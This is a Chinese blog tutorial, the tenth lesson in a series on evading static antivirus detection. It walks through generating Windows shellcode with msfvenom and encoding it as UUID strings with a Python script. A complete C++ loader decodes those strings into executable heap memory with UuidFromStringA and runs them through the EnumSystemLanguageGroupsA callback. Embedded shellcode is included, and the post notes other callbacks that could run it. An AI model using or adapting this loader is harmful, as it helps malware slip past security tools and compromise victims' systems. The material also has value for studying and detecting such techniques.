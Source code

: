 ```yaml
---
title: 静态恶意代码逃逸（第十课）
layout: post
date: '2021-02-08'
permalink: "/archivers/2021-02-08/1"
description: 本节课，使用UUID的方式存储Shellcode，再介绍一些CALL BACK函数的特性来加载Shellcode。
---
```


代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 UUID

通用唯一标识符（universally unique identifier, UUID）是一个128位的用于在计算机系统中以识别信息的数目。在Windows中也有使用GUID来标识唯一对象。 — 来源：[维基百科](https://en.wikipedia.org/wiki/Universally_unique_identifier)

关于Windows中的GUID也等同于UUID，先看一下结构：

```c++
typedef struct _GUID {
  unsigned long  Data1; // 4字节
  unsigned short Data2; // 2字节
  unsigned short Data3; // 2字节
  unsigned char  Data4[8]; // 8字节
} GUID;
```

总和一共16字节，16*8 = 128位。


## 0x02 与UUID相关的Windows API


```c++
RPC_STATUS UuidFromString(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

功能：将字符串UUID转换为UUID结构。

```c++
RPC_STATUS UuidCreate(
  UUID *Uuid
);
```

功能：创建UUID结构。

```c++
int UuidEqual(
  UUID       *Uuid1,
  UUID       *Uuid2,
  RPC_STATUS *Status
);
```

功能：判断两个UUID是否相等。

通过URL查看：https://docs.microsoft.com/en-us/windows/win32/rpc/rpcdce/ns-rpcdce-uuid

UUID 代表了 -> `typedef GUID UUID;`

## 0x03 UUID 测试

### 生成Shellcode

```
./msfvenom -p windows/exec CMD=calc.exe -b '\xfc\xe8' -f raw -o /tmp/shellcode.bin
```

### Bin2UUID

生成脚本：

```py
from uuid import UUID
import os
import sys

# Usage: python3 binToUUIDs.py shellcode.bin [--print]

print("""
  ____  _    _______    _    _ _    _ _____ _____       
 |  _ \(_)  |__   __|  | |  | | |  | |_   _|  __ \      
 | |_) |_ _ __ | | ___ | |  | | |  | | | | | |  | |___  
 |  _ <| | '_ \| |/ _ \| |  | | |  | | | | | |  | / __| 
 | |_) | | | | | | (_) | |__| | |__| |_| |_| |__| \__ \ 
 |____/|_|_| |_|_|\___/ \____/ \____/|_____|_____/|___/
\n""")

with open(sys.argv[1], "rb") as f:
    bin = f.read()

if len(sys.argv) > 2 and sys.argv[2] == "--print":
    outputMapping = True
else:
    outputMapping = False

offset = 0

print("Length of shellcode: {} bytes\n".format(len(bin)))

out = ""

while(offset < len(bin)):
    countOfBytesToConvert = len(bin[offset:])
    if countOfBytesToConvert < 16:
        ZerosToAdd = 16 - countOfBytesToConvert
        byteString = bin[offset:] + (b'\x00'* ZerosToAdd)
        uuid = UUID(bytes_le=byteString)
    else:
        byteString = bin[offset:offset+16]
        uuid = UUID(bytes_le=byteString)
    offset+=16

    out += "\"{}\",\n".format(uuid)
    
    if outputMapping:
        print("{} -> {}".format(byteString, uuid))

with open(sys.argv[1] + "UUIDs", "w") as f:
    f.write(out)

print("Outputted to: {}".format(sys.argv[1] + "UUIDs"))
```

![2021-02-08-20-41-08](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/3922558744d8fb3071d39e5f8343c6ff.png)

### 生成测试样本

```c++
#include <Windows.h>
#include <rpc.h>
#pragma comment(lib,"Rpcrt4.lib")

const char * buf[] = {
	"4baf01bd-dbdd-d9de-7424-f45a33c9b131",
	"83136a31-04c2-6a03-0e4d-be21f81341da",
	"3fcb73f8-b3c9-34af-7904-bb1975efe989",
	"bd259d0e-28a7-f010-3800-6093ba5bb573",
	"72c89383-cec4-2621-9d85-94d7aad02453",
	"802cf5e0-f4b0-171d-cbae-bd9918dbf781",
	"394ee67d-9cb5-eb50-845d-fed229acfe13",
	"6a754f8d-f2ee-a98e-8d28-1a2a35babc96",
	"5c5a6fc4-c4ca-3a28-cedb-fd30ea500097",
	"3327227b-f020-6246-8c57-76746f07d2fe",
	"5d6f5c9d-a3cb-dbfd-b9a4-fde3edcccc68",
	"bad08a62-64c7-e79b-61ed-4272307075a8",
	"59f68d76-6a06-2be6-0336-a0c0792745e7",
	"844c482e-dab1-650c-545b-b67900000000"
};


int main(int argc, char* argv[]) {

	int dwNum = sizeof(buf) / sizeof(buf[0]);

	HANDLE hMemory = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);
	if (hMemory == NULL) {
		return -1;
	}
	PVOID pMemory = HeapAlloc(hMemory, 0, 1024);
	
	DWORD_PTR CodePtr = (DWORD_PTR)pMemory;

	for (size_t i = 0; i < dwNum; i++)
	{
		if (CodePtr == NULL) {
			break;
		}
		RPC_STATUS	status = UuidFromStringA(RPC_CSTR(buf[i]), (UUID*)CodePtr);
		if (status != RPC_S_OK) {

			return -1;
		}
		CodePtr += 16;
	}

	if (pMemory == NULL) {
		return -1;
	}
	if (EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)pMemory, LGRPID_INSTALLED, NULL) == FALSE) {
		// 加载成功
		return 0;
	}
	return 0;
}
```


![2021-02-08-20-52-53](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b3c7ed47da69c8709588b47e44476eb5.png)

## 0x04 Windows CALL BACK函数

CALL BACK意为回调，是定义一个函数，由系统某个事件或用户的动作自动触发的函数，因此调用者不是用户。

通过MSDN直接搜索Callback/Proc关键字就能发现一些回调函数：

![2021-02-08-20-59-11](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/40db0428aca1e6e105c2e7550230cf8d.png)

例如：

```c++

HINTERNET hOpen;                       // Root HINTERNET handle
INTERNET_STATUS_CALLBACK iscCallback;  // Holds the callback function

// Create the root HINTERNET handle.
hOpen = InternetOpen( TEXT("Test Application"),
                      INTERNET_OPEN_TYPE_PRECONFIG,
                      NULL, NULL, 0);

// Set the status callback function.
iscCallback = InternetSetStatusCallback( hOpen, (INTERNET_STATUS_CALLBACK)CallMaster );

void CALLBACK CallMaster( HINTERNET,
    DWORD_PTR,
    DWORD,
    LPVOID,
    DWORD
);

```

如果CallMaster指向的是一块可执行属性的内存，那么就可以加载Shellcode。

这篇文章中介绍了如何发现其他带有回调的[Windows API](http://ropgadget.com/posts/abusing_win_functions.html)。


## 参考

- http://www.cn0sec.cn/index.php/archives/337/
- http://ropgadget.com/posts/abusing_win_functions.html